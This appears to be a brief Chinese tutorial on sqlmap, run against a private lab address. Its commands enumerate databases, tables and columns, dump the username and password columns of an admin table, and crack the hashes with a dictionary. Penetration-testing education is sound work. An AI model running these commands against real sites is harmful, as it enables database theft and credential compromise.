 SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1"
-u参数指定目标注入地址,为了规范，目标注入地址尽量用""引起来

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" --dbs
python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" --current-db
--current-db:列当前数据库

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" -D sqlinject --tables  
-D dbname:指定数据库名称
--tables:列出某数据库上的所有表

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" -D sqlinject -T admin --columns
-D dbname:指定数据库名称
-T tablename:指定某数据表名称
--columns:列出指定表上的所有列

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" -D sqlinject  -T admin -C id,username,password --dump
-D dbname:指定数据库名称
-T tablename:指定某数据表名称
-C Cnmme:指定列名
--dump:导出列里面的字段

然后回车默认通过字典来破解，选择1利用自带的字典暴力破解